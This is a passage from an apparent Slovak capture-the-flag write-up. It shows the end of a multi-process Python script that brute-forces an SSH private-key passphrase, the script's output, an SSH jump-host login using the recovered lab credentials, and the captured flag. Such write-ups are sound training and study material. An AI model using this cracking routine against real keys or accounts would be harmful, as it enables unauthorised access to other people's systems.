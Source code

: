 ```
        pass

def password_range(start, end):
    for i in range(start, end):
        yield f"Enterprise{i}"

def worker(start, end):
    for password in password_range(start, end):
        if password_found.value == 1:
            break
        try_password(password)

if __name__ == "__main__":
    num_cores = 16
    range_per_core = 100000 // num_cores
    processes = []

    for i in range(num_cores):
        start = i * range_per_core
        end = start + range_per_core
        p = multiprocessing.Process(target=worker, args=(start, end))
        processes.append(p)
        p.start()

    for p in processes:
        p.join()

    if password_found.value == 0:
        print("\nPassword brute force completed. No password found.")

```

Skúsil som utilizovať všetkých 16 vlákien a skript som pustil v natívnom systéme, u mňa windows, pre lepší výkon.

    C:\Users\Majino\Documents\catch2024>python sshbf1.py
	Password found: Enterprise2215
	Password brute force completed. No password found. 

Tak máme nové passphrase pre private key, skúsime ho použiť

	ssh -J backuper@10.99.24.100 -i id_rsa -l 'john@tcc.local' 10.99.24.101
	backuper@10.99.24.100's password:  (zadáme Bprn5ibLF4KNS4GR5dt4)
	Enter passphrase for key 'id_rsa': (zadáme Enterprise2215)
	FLAG{sIej-5d9a-aIbh-v4qH}
	Connection to 10.99.24.101 closed.


A máme vlajku.

----------

## Vlajka ##
    FLAG{sIej-5d9a-aIbh-v4qH}